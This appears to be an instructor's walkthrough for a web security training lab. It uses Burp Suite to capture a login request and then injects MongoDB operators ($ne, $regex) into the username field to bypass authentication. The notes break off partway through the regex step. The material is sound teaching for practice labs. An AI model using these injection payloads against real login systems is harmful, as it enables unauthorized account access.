 
# Instructor Lab Notes (Original) – Fully Detailed and Reformatted

> **Note:** These are the instructor’s original notes, organized with added context (*in italics*) for clarity.

## Step 1: Initial Setup and Proxy Capture

- **Generate Traffic:** Log in as `wiener` with password `peter` through the lab’s front page. This request will be visible in Burp Suite.
- In Burp, locate the `POST /login` request.

The request body might look like:
```json
{
  "username": "wiener",
  "password": "peter"
}
````

## Step 2: Send to Repeater

- Right-click the `/login` request → **Send to Repeater**.
- In Repeater, you can now modify the request and resend it to see the server response.

## Step 3: Testing NoSQL Injection Operators

- MongoDB queries can use `$ne` (not equal) and `$regex` (regular expression) operators.
    
- Replace `username` value with something like:
    
    ```json
    "username": { "$ne": "" }
    ```
    
    and keep `"password": "peter"`.
    
- Send the request. If this logs you in or changes the response (e.g., you get a 302 redirect), you know injection is working.
    

**Why `$ne`?**  
`$ne` ensures that the query matches any document where username is not equal to an empty string. This often returns unexpected matches, like multiple users.

## Step 4: Broadening the Attack with `$regex`

- Next, test a regex pattern. For example:
    
    ```json
    "username": { "$regex": "wien.*" }
    ```
    